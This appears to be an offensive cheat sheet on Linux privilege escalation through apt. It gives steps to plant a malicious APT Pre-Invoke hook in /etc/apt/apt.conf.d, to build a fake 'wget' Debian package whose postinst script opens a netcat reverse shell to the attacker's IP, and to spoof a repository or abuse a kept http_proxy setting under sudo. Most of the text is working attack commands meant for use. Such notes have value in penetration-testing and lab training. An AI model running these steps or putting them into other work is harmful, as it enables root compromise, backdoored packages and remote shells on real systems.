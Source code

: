 ## Requirements: Possibly a crontab that runs apt as root or the user can run apt/apt-get runs as root with sudo

### Steps:

#### 1) APT::Update::Pre-Invoke {"/bin/bash /tmp/pwn.sh"} (Create a malicious config file (pwnapt) that calls your reverse shell script)

#### 2) Create a reverse shell file (pwn.sh)

#### 3) Upload the config file to the /etc/apt/apt.conf.d/00pwn via any method you can (FTP,tftp,etc)

#### 4) Setup listener

#### 5) GG!

### BONUS!

### Apt configuration files directory: /etc/apt/sources.list.d/ (Check for any files that might contain places that are package repositories for the package manager to pull from)

## Setting up a malicious repository

### Requirements: Trace down where the apt manager of the target machine installs its packages from by checking out the /etc/apt/sources.list/ directory. Also choose a package which is already present on the target machine (wget for example).

### TIP: In sudo configurations (sudo -l) if the http_proxy environment variable is kept while the command is executed as root, before doing the required setup, we can also do: export http_proxy="http://OUR_PROXY:8000" (The proxy is the one we open if we detect this env variable to force the package manager to use our repository) Run the proxy first, then run a simple python3 server and then check if your server receives any requests.

### Steps:

#### 1) mkdir build

#### 2) mkdir -p wget/DEBIAN

#### 3) nano/vim wget/DEBIAN/control (Create the control file with the metadata)

##### Package: wget

##### Architecture: all

##### Maintainer: @WHATEVER

##### Priority: optional

##### Version: 5.0

##### Description: GGEZ!

#### 4) mkdir -p wget/usr/bin

#### 5) nano/vim wget/usr/bin/wget (Make a dummy binary)

##### #!/bin/bash

##### echo "Whatever"

#### 6) chmod 700 wget/usr/bin/mypackage

#### 7) nano/vim wget/DEBIAN/postinst (Create the malicious script)

##### #!/bin/bash

##### rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc OUR_IP PORT

#### 8) chmod 755 wget/DEBIAN/postinst

#### 9) dpkg-deb --build wget/ (Package it)

#### 10) Create a file named "Packages" with the contents:

##### Package: wget

##### Version: 5.0

##### Maintainer: WHATEVER

##### Architecture: all

##### Description: Pwnie package

##### Multi-Arch: foreign

##### Filename: pwn/wget.deb

##### Size: 800

##### MD5sum: e5c858d924abbe4effcd1fe1ca4eb21a

##### SHA1: 6822716507fe71737c635995f3f8f049d8b3cdf9

##### SHA256: 76a31c4e20bf4530027004bf7794b9c7993960d51933ce772b1594d4fc74aca5

### (You can gain the hashes for the .deb file with the md5sum, sha256sum and sha1sum respectively and the size can be gained with ls -la)

#### 11) Finish the setup using gzip

#### 12) Create the directories by replicating the repository we want to spoof with the purpose of the target apt manager downloads the package from our repository instead. Place your package in the right folder according to use case. 

#### 13) Run sudo apt-get update and sudo apt-get upgrade on target machine to download our malicious packages file.

#### 14) If the package has been downloaded, press yes to install it

#### 15) GG!
